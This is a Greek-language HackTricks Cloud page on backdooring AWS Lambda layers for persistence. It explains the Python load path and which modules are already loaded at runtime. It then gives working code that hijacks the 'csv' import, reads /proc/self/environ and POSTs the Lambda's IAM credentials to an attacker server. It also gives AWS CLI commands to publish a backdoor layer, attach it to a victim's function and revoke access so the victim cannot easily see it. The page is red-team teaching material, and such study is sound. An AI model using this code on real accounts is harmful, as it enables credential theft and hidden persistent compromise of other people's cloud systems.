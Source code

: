 # AWS - Μόνιμη Αποθήκευση Lambda Layers

<details>

<summary><strong>Μάθετε το hacking στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε** 💬 [**στην ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs** στα [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Lambda Layers

Ένα Lambda layer είναι ένα αρχείο .zip που **μπορεί να περιέχει επιπλέον κώδικα** ή άλλο περιεχόμενο. Ένα layer μπορεί να περιέχει βιβλιοθήκες, ένα [προσαρμοσμένο runtime](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), δεδομένα ή αρχεία διαμόρφωσης.

Είναι δυνατόν να περιλαμβάνονται έως **πέντε layers ανά συνάρτηση**. Όταν περιλαμβάνετε ένα layer σε μια συνάρτηση, το **περιεχόμενο εξάγεται στον φάκελο `/opt`** στο περιβάλλον εκτέλεσης.

Από προεπιλογή, τα **layers** που δημιουργείτε είναι **ιδιωτικά** για τον λογαριασμό σας στο AWS. Μπορείτε να επιλέξετε να **μοιραστείτε** ένα layer με άλλους λογαριασμούς ή να το κάνετε **δημόσιο**. Εάν οι συναρτήσεις σας χρησιμοποιούν ένα layer που δημοσίευσε ένας διαφορετικός λογαριασμός, οι συναρτήσεις σας μπορούν να **συνεχίσουν να χρησιμοποιούν την έκδοση του layer ακόμα και αφού έχει διαγραφεί ή αφού έχει ανακληθεί η άδειά σας για πρόσβαση στο layer**. Ωστόσο, δεν μπορείτε να δημιουργήσετε μια νέα συνάρτηση ή να ενημερώσετε συναρτήσεις χρησιμοποιώντας μια διαγραμμένη έκδοση του layer.

Οι συναρτήσεις που έχουν αναπτυχθεί ως εικόνες εμπορευματοκιβωτίου δεν χρησιμοποιούν layers. Αντ' αυτού, συμπεριλαμβάνετε το προτιμώμενο runtime, τις βιβλιοθήκες και άλλες εξαρτήσεις στην εικόνα του εμπορευματοκιβωτίου κατά την κατασκευή της εικόνας.

### Φορτωτική διαδρομή Python

Η φορτωτική διαδρομή που θα χρησιμοποιήσει η Python στο Lambda είναι η εξής:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Ελέγξτε πώς οι δεύτερη και τρίτη θέση καταλαμβάνονται από καταλόγους όπου οι λειτουργίες του λάμδα αποσυμπιέζουν τα αρχεία τους: `/opt/python/lib/python3.9/site-packages` και `/opt/python`

{% hint style="danger" %}
Εάν ένας επιτιθέμενος καταφέρει να εισχωρήσει σε ένα χρησιμοποιούμενο λάμδα layer ή να προσθέσει ένα που θα εκτελεί αυθαίρετο κώδικα όταν φορτώνεται μια κοινή βιβλιοθήκη, θα μπορεί να εκτελέσει κακόβουλο κώδικα με κάθε κλήση του λάμδα.
{% endhint %}

Επομένως, οι προϋποθέσεις είναι:

* Ελέγξτε τις βιβλιοθήκες που φορτώνονται από τον κώδικα των θυμάτων
* Δημιουργήστε μια βιβλιοθήκη διαμεσολαβητή με λάμδα layers που θα εκτελεί προσαρμοσμένο κώδικα και θα φορτώνει την αρχική βιβλιοθήκη.

### Προφορτωμένες βιβλιοθήκες

{% hint style="warning" %}
Όταν καταχρώνται αυτήν την τεχνική, αντιμετώπισα μια δυσκολία: Ορισμένες βιβλιοθήκες έχουν ήδη φορτωθεί στον χρόνο εκτέλεσης της Python όταν εκτελείται ο κώδικάς σας. Περίμενα να βρω πράγματα όπως `os` ή `sys`, αλλά ακόμα και η βιβλιοθήκη `json` είχε φορτωθεί.\
Για να καταχραστείτε αυτήν την τεχνική διατήρησης, ο κώδικας πρέπει να φορτώσει μια νέα βιβλιοθήκη που δεν έχει φορτωθεί όταν εκτελείται ο κώδικας.
{% endhint %}

Με έναν κώδικα Python όπως αυτός, είναι δυνατόν να λάβετε τη λίστα των βιβλιοθηκών που έχουν προφορτωθεί εντός του χρόνου εκτέλεσης της Python στο λάμδα:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
Και αυτή είναι η **λίστα** (ελέγξτε ότι βιβλιοθήκες όπως `os` ή `json` υπάρχουν ήδη εκεί)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Και αυτή είναι η λίστα των **βιβλιοθηκών** που περιλαμβάνει η **lambda που είναι εγκατεστημένες από προεπιλογή**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Παραβίαση Λειτουργίας Επιπέδου Lambda

Σε αυτό το παράδειγμα, ας υποθέσουμε ότι ο κατευθυνόμενος κώδικας εισάγει τη **`csv` βιβλιοθήκη**. Θα προχωρήσουμε στην **παραβίαση της εισαγωγής της βιβλιοθήκης `csv`**.

Για να το κάνουμε αυτό, θα **δημιουργήσουμε τον φάκελο csv** με το αρχείο **`__init__.py`** μέσα σε αυτόν, σε ένα μονοπάτι που φορτώνεται από την lambda: **`/opt/python/lib/python3.9/site-packages`**.\
Έπειτα, όταν εκτελείται το lambda και προσπαθεί να φορτώσει το **csv**, το αρχείο μας **`__init__.py` θα φορτωθεί και θα εκτελεστεί**.\
Αυτό το αρχείο πρέπει:

* Να εκτελεί το payload μας
* Να φορτώνει την αρχική βιβλιοθήκη csv

Μπορούμε να κάνουμε και τα δύο με:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Στη συνέχεια, δημιουργήστε ένα zip με αυτόν τον κώδικα στη διαδρομή **`python/lib/python3.9/site-packages/__init__.py`** και προσθέστε το ως ένα λειτουργικό επίπεδο λάμδα.

Μπορείτε να βρείτε αυτόν τον κώδικα στο [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Το ενσωματωμένο φορτίο θα **στείλει τα IAM διαπιστευτήρια σε έναν διακομιστή ΤΗΝ ΠΡΩΤΗ ΦΟΡΑ που καλείται ή ΜΕΤΑ από επαναφορά του container της λάμδα** (αλλαγή του κώδικα ή κρύα λάμδα), αλλά **μπορούν επίσης να ενσωματωθούν και άλλες τεχνικές** όπως οι ακόλουθες:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Εξωτερικά Επίπεδα

Να σημειωθεί ότι είναι δυνατή η χρήση **επιπέδων λάμδα από εξωτερικούς λογαριασμούς**. Επιπλέον, μια λάμδα μπορεί να χρησιμοποιήσει ένα επίπεδο από έναν εξωτερικό λογαριασμό ακόμα κι αν δεν έχει δικαιώματα.\
Επίσης, να σημειωθεί ότι το **μέγιστο πλήθος των επιπέδων που μπορεί να έχει μια λάμδα είναι 5**.

Επομένως, για να βελτιώσει την ευελιξία αυτής της τεχνικής, ένας επιτιθέμενος θα μπορούσε:

* Να εισχωρήσει σε ένα υπάρχον επίπεδο του χρήστη (τίποτα δεν είναι εξωτερικό)
* **Να δημιουργήσει** ένα **επίπεδο** στον **λογαριασμό του**, να δώσει στον **λογαριασμό του θύματος πρόσβαση** για να χρησιμοποιήσει το επίπεδο, να **διαμορφώσει** το **επίπεδο** στη λάμδα του θύματος και να **αφαιρέσει την άδεια**.
* Η **Λάμδα** θα μπορεί ακόμα να **χρησιμοποιήσει το επίπεδο** και το **θύμα δεν θα έχει** εύκολο τρόπο να **κατεβάσει τον κώδικα των επιπέδων** (εκτός από το να πάρει ένα αντίστροφο κέλυφος μέσα στη λάμδα)
* Το θύμα **δεν θα δει εξωτερικά επίπεδα** που χρησιμοποιούνται με **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

<details>

<summary><strong>Μάθετε το hacking στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF**, ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα κόλπα σας για το hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
